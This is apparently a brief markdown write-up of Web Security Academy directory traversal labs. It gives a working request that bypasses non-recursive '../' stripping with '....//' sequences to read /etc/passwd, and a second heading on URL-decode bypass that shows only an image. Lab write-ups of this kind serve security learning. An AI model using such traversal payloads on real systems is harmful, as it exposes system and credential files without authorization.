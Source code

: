 # Directory Traversal

## File path traversal, traversal sequences stripped non-recursively

`../` gets filtered so we trick the applaction by submitting a get request like 
this:

``` 
GET /image?filename=....//....//....//....//etc/passwd HTTP/2
Host: 0afc0083049fe2ff877f7f5400b400a1.web-security-academy.net
```


## File path traversal, traversal sequences stripped with superfluous URL-decode

![path traversal brute](./images/path-traversal-brute.png)
